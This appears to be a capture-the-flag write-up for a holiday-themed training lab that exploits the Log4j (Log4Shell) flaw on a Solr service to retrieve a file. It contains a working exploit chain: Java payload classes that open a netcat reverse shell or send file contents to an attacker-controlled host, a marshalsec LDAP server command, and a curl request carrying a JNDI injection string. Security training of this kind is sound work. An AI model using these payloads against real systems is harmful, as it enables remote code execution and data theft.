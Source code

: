 # Bonus Red Log4Jack
**Location: North Pole**
**Troll: Icky McGoop**

This exercise runs in a Cranberry Pi terminal, focusing on exploiting the Log4J vulnerability recently discovered.
Multiple terminal session are created automatically, one running a web server serving from `/home/troll/web` on port 8080, another one running a netcat listener on port 4444.

The objective is to retrieve the file `/home/solr/kringle.txt` from a web service running solr on http://solrpower.kringlecastle.com:8983/.

First a Java class `Joergen` creating a reverse shell is created:
```java
public class Joergen {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.
This is placed in the web tree, so that the web server is able to hand out this class.
Next the [marshalsec](https://github.com/mbechler/marshalsec) installation residing in `/home/troll/marshalsec`  is started:
```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://WEBSERVERIP:8080/#Joergen"
```
*WEBSERVERIP* has to be replaced with the terminal's IP address.
This application acts as an LDAP server and uses the Java class on the web server as remote code base.

Finally the Log4J vulnerability is triggered:
```bash
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://MARSHALSECIP:1389/YuleLogExploit\}'
```
*MARSHALSECIP* has to be replaced with the terminal's IP address.

This triggers on the solr server an LDAP connection to the marshalsec service, which in turn delivers the Java class hosted on the web server. The solr server then executes this class, effectively creating a reverse shell connection to the netcat listener. This allows the file `kringle.txt` to be retrieved.
```bash
cat /home/solr/kringle.txt

The solution to Log4shell is patching.
Sincerely,

Santa
```
So **patching** is the solution.

### Alternative 1: just reading the targeted file
```java
import java.io.*;
import java.nio.file.*;
public class Joergen {
  static {
    try {
      Process p=java.lang.Runtime.getRuntime().exec("nc CLIENTIP 4444");
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      OutputStream out=p.getOutputStream();
      out.write(data);
      out.close();
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

### Alternative 2: pure Java solution, hence platform independant
```java linenums="1"
import java.io.*;
import java.nio.file.*;
import java.net.Socket;
public class Joergen {
  static {
    try {
      Socket socket=new Socket("CLIENTIP",4444);
      PrintStream out = new PrintStream( socket.getOutputStream() );
      Path path=Paths.get("/home/solr/kringle.txt");
      byte[] data = Files.readAllBytes(path);
      out.write(data);
    }catch (Exception err) {
      err.printStackTrace();
    }
  }
}
```
*CLIENTIP* has to be replaced with the terminal's IP address.

**Achievement: Log4J Red Bonus**
